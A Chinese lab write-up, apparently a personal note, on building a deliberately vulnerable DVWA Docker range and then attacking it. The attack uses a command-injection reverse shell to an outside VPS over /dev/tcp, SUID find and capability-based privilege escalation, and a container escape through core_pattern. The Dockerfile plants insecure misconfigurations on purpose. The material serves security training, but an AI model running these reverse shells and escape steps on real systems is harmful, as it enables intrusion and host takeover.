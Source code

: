 ```yaml
---
categories: [云原生]
tags: 容器逃逸 Docker
---
```


# 2023.08.28

## 0x01 环境搭建

使用到的机器：sec-container2（IP：10.255.200.87）、阿里云 vps（8.130.104.104）、本地 kali 虚拟机（10.211.55.4）

### 1.1 Dockerfile 如下：

```bash
# 基于基础镜像centos-lamp进行自定义
FROM dockerfiles/centos-lamp
# 将工作目录设置为/var/www/html 接下来的操作都在这个目录下进行
WORKDIR /var/www/html
# 使用wget下载文件 然后解压到当前工作目录 --strip-components=1表示解压时去掉一个顶层目录
RUN wget https://github.com/RandomStorm/DVWA/archive/v1.0.8.tar.gz -O- | tar xvz --strip-components=1
# 启动mysql服务 使用mysqladmin命令将root用户的密码改为p@ssw0rd 停止mysql服务
RUN service mysqld start && mysqladmin -uroot password p@ssw0rd && service mysqld stop
# 容器80端口映射至主机，以便通过主机的某端口访问容器中的web服务
EXPOSE 80
USER root
# 更换镜像源（需提前将Centos-vault-6.10.repo从https://mirrors.aliyun.com/repo/Centos-vault-6.10.repo目录下载到本地）
COPY ./Centos-vault-6.10.repo /home
COPY ./here_u_r.txt /root
COPY ./open_me.txt /home
WORKDIR /home
RUN rm -rf /etc/yum.repos.d/*
RUN cp -r ./Centos-vault-6.10.repo /etc/yum.repos.d/CentOS-Base.repo
RUN yum clean all
RUN yum makecache
WORKDIR /var/www/html
# 安装sudo
RUN rpm --rebuilddb && yum install -y sudo && yum install -y gcc
# 给用户apache设置密码
RUN echo 'apache:%Kin,qnEfJQ]r;YY' | chpasswd
# 给find指令设置suid权限+除root用户外其他用户不能执行getcap指令+给tar指令设置cap_dac_read_search capability
RUN chmod u+s $(which find) && \
    chmod 700 $(which getcap) && \
    setcap 'cap_dac_read_search=ep' $(which tar)
# apache用户可以使用sudo passwd修改密码
RUN echo 'apache ALL=(ALL) /usr/bin/passwd' > /etc/sudoers.d/apache-password
CMD ["supervisord", "-n"]
```

~~注：由于本地的虚拟机可以找到内网的 sec-container2 机器，但是内网机器无法找到 kali 虚拟机，因此需要在 vps 与 kali 之间进行端口映射。~~

注：可以直接在内网机器和 vps 之间进行端口映射。内网机器为客户端，vps 为服务端。配置好之后可以直接利用公网 ip+相应端口访问相应的服务。

### 1.2 使用 frp 配置端口映射：

frp：内网穿透和反向代理软件，支持 tcp，udp，http，https 等协议

#### 1.2.1 工作原理：

- 服务端运行，监听一个主端口，等待客户端的连接；
- 客户端连接到服务端的主端口，同时告诉服务端要监听的端口和转发类型；
- 服务端 fork 新的进程监听客户端指定的端口；
- 外网用户连接到客户端指定的端口，服务端通过和客户端的连接将数据转发到客户端；
- 客户端进程再将数据转发到本地服务，从而实现内网对外暴露服务的能力。

#### 1.2.2 具体流程：

可参考[frp](https://www.cnblogs.com/henry666/p/13966992.html)

<font color="#808080">注：需要给 vps 相应端口添加安全组入方向访问规则。</font>

<u>根据靶场的设计思路，需要设置两个端口映射（3333<---->5555；4444<---->6666</u>

```bash
# 阿里云vps:frp服务端
[common]
bind_port = 7000

dashboard_port = 7777

dashboard_user = admin

dashboard_pwd = admin

# 启动服务端服务
./frps -c ./frps.ini
```

```bash
# kali虚拟机：frp客户端
[common]
server_addr = 8.130.104.104
server_port = 7000

[forward1]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 6666

[forward2]
type = tcp
local_ip = 127.0.0.1
local_port = 3333
remote_port = 5555

#启动客户端服务
./frpc -c ./frpc.ini
```

---

### 1.3 宿主机启动容器

```bash
# 使用Dockerfile创建自定义的镜像
docker build -t dvwa .
# 以守护进程模式后台+特权模式启动容器，映射80端口，挂载宿主机procfs
docker run --privileged -d -p 80 -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern dvwa
```

![image2023-8-28_14-13-16.png](https://s2.loli.net/2023/10/08/fy2xhaDXSk9PMRJ.png)

### 1.4 kali 端：

1. 打开浏览器，使用**ip 地址+相应端口（10.255.200.87:32774**在浏览器中访问 dvwa 服务（初始化步骤省略）
2. 任意利用其中某个漏洞，进行反弹 shell（此处使用命令注入漏洞）
   1. 在终端窗口中开启 nc 监听（nc -nlvp 4444）
   2. 命令注入输入框输入<code>;bash -i >& /dev/tcp/8.130.104.104/6666 0>&1</code>获取 shell
      ![image2023-8-28_14-18-56.png](https://s2.loli.net/2023/10/08/pf4ighKaJSQ6bNx.png)
3. **/home**目录下存在一个 txt 文件
   ![image2023-8-28_14-27-43.png](https://s2.loli.net/2023/10/08/r2OiWwlYBZTzaXM.png)
4. 使用 find 指令查找具有 suid 权限的指令 <code>find / -perm -u=s -type f 2>/dev/null</code>
   1. ![image2023-8-28_14-22-11.png](https://s2.loli.net/2023/10/08/nHzxh6u4TrALEp7.png)
   2. 在/tmp 目录下新建一个文件，利用 find 指令的-exec 选项执行指令 <code>find 1 -exec getcap -r / 2>/dev/null \;</code>
   3. ![image2023-8-28_14-26-0.png](https://s2.loli.net/2023/10/08/YieAUL9nQCcS1hr.png)
5. 使用 tar 指令将/root 目录压缩至/tmp 目录，解压查看目录下文件
   1. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   2. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   3. brainfuck->base64-><code>,%Kin,qnEfJQ]r;YY</code>
6. 将当前 shell 切换为完整 tty，成功后输入该字符串，修改密码
   ![image2023-8-28_14-35-1.png](https://s2.loli.net/2023/10/08/wulVSzNyC5jKMOm.png)
7. 尝试使用 su 指令登录 root 用户
   ![image2023-8-28_14-36-47.png](https://s2.loli.net/2023/10/08/wuIUpbSvLeNjG9m.png)
8. 参考[Docker 容器逃逸](https://wuheuu.github.io/docker/Docker容器逃逸/)中 3.2 部分进行利用，.x.py 文件中 ip 地址设置为 8.130.104.104，端口设置为 5555。kali 开启 3333 端口监听，在之前的 shell 中执行 x 文件，制造崩溃，拿到 shell。
   ![image2023-8-28_14-42-23.png](https://s2.loli.net/2023/10/08/VW26reyTMJnSBEu.png)
9. 将 shell 切换为完整 tty，使用<code>export PATH=$PATH:/usr/sbin</code>添加/usr/sbin 环境变量，执行 ifconfig 指令。
   1. 逃逸出来
      ![image2023-8-28_14-44-9.png](https://s2.loli.net/2023/10/08/zqHA1XBkrMogLCG.png)
   2. 与容器内 ifconfig 返回结果进行对比
      ![image2023-8-28_14-45-6.png](https://s2.loli.net/2023/10/08/Pby8VjXiBsmSHwo.png)

---

## 0x02 附录：

- 正向 shell 与反向 shell（bind shell & reverse shell）**具体可看参考资料(3)**
  - 正向 shell：攻击者可以在靶机上启动一个服务，从而使得攻击者可以连接这个服务并执行一些命令。如果要启动一个 bind shell，攻击者必须有目标机器的 ip 地址。
  - 反向 shell：攻击者需要在攻击端机器上启动一个服务器，靶机作为客户端来连接这个服务器。成功连接后，攻击者可以得到靶机的 shell。要使用反向 shell，攻击者不需要知道目标机器 ip 地址。
- 运行容器时注意需要开启--privileged 选项或者使用--cap-add，否则很多指令将无法执行，即使用户在容器内是 root 身份
- 在反弹的 shell 中有些命令无法执行可能是由于忘记将 shell 切换为完整 tty
- 尝试修改密码时出现 passwd:passwd: system_u:system_r:spc_t:s0 is not authorized to change the password of root，原因是宿主机未关闭 SElinux 强制访问控制，需要关闭后重启宿主机，并使用 getenforce 进行验证。

---

## 0x03 参考资料：

1. [frp](https://www.cnblogs.com/henry666/p/13966992.html)
2. [bind shell & reverse shell](https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/)
3. [正向 shell 与反向 shell](https://blog.csdn.net/weixin_45936149/article/details/123752352)
